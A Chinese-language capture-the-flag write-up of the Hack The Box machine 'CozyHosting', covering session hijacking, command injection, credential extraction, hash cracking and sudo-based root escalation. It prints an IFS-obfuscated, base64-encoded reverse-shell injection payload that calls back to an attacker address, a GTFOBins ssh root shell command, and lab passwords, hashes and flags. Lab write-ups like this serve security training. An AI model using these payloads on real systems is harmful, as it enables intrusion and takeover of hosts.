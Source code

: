```yaml
---
title: 'HTB: CozyHosting'
date: 2023-11-18 19:57:06
categories:
- Machines
- Lab
tags:
- HTB
- easy
---
```


![image-20231118195809339](../images/image-20231118195809339.png)

IP:`10.10.11.230`

nmap扫描

```bash
┌──(kali㉿kali)-[~/htb/CozyHosting]
└─$ nmap -p- 10.10.11.230 --min-rate 10000 -oN nmap_ports
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-18 07:00 EST
Warning: 10.10.11.230 giving up on port because retransmission cap hit (10).
Stats: 0:00:29 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 46.43% done; ETC: 07:01 (0:00:32 remaining)
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.39s latency).
Not shown: 64345 closed tcp ports (conn-refused), 1187 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9001/tcp open  tor-orport

Nmap done: 1 IP address (1 host up) scanned in 67.33 seconds

```

80端口http界面

![image-20231118200354428](../images/image-20231118200354428.png)

只有login能点进去

![image-20231118200506277](../images/image-20231118200506277.png)

弱口令尝试失败

![image-20231118203151668](../images/image-20231118203151668.png)

查看error界面为Spring Boot框架

![image-20231118203401432](../images/image-20231118203401432.png)

9001端口界面

![image-20231118200316108](../images/image-20231118200316108.png)

脚本扫描

```bash
┌──(kali㉿kali)-[~/htb/CozyHosting]
└─$ nmap -p 22,80,9001 10.10.11.230 -sC -sV -T4 -oN nmap_scripts
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-18 07:02 EST
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.44s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
9001/tcp open  http    SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-title: Directory listing for /
|_http-server-header: SimpleHTTP/0.6 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.71 seconds

```

Web目录枚举

![image-20231118201739981](../images/image-20231118201739981.png)

枚举出的目录其中一个包含用户的JESSIONID

![image-20231118201922688](../images/image-20231118201922688.png)

用JESSIONID替换原有cookie登录admin

![image-20231118202619779](../images/image-20231118202619779.png)

存在一个提供ssh连接的功能

![image-20231118202718350](../images/image-20231118202718350.png)

填写` kali`和`vpn`地址进行尝试

![image-20231118204522133](../images/image-20231118204522133.png)

![image-20231118204627282](../images/image-20231118210019834.png)

![image-20231118205941801](../images/image-20231118205941801.png)

用` {IFS}` 替换空格

![image-20231118210826486](../images/image-20231118210826486.png)

反弹shell生成

![image-20231118205320610](../images/image-20231118205320610.png)

测试反弹shell

![image-20231118205733379](../images/image-20231118205733379.png)

将空格进行替换

```bash
echo${IFS%??}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMi80MjQyIDA+JjE="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash
```

还是有空格

![image-20231118212820550](../images/image-20231118212820550.png)

URL再次编码

![image-20231118213110807](../images/image-20231118213110807.png)

在kali上开启nc监听

![image-20231118213142291](../images/image-20231118213142291.png)

安装jar查看器`jd-gui`

![image-20231118213809572](../images/image-20231118213809572.png)

![image-20231118214022742](../images/image-20231118214022742.png)

```java
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

postgresql数据库

![image-20231118214236650](../images/image-20231118214236650.png)

```
username=kanderson&password=MRdEQuv6~6P9
```

登录数据库

![image-20231118214823961](../images/image-20231118214823961.png)

```
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin

```

![image-20231118215050417](../images/image-20231118215050417.png)

![image-20231118215807044](../images/image-20231118215807044.png)

爆破（不知为何hashcat不能用）

![image-20231118215833354](../images/image-20231118215833354.png)

用john

![image-20231118220310517](../images/image-20231118220310517.png)

```
manchesterunited
```

ssh连接

![image-20231118220526516](../images/image-20231118220526516.png)

![image-20231118220553059](../images/image-20231118220553059.png)

user flag:

```
josh@cozyhosting:~$ cat user.txt
9d572e2bec77d894e9a30bd34e0900ed
```

root提权

![image-20231118221050991](../images/image-20231118221050991.png)

<https://gtfobins.github.io/gtfobins/ssh/#sudo>

![image-20231118221102624](../images/image-20231118221102624.png)

```
ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![image-20231118221216032](../images/image-20231118221216032.png)

```
# cat root.txt
98291317931360700d3e6cac4143b765
```

![image-20231118221312689](../images/image-20231118221312689.png)
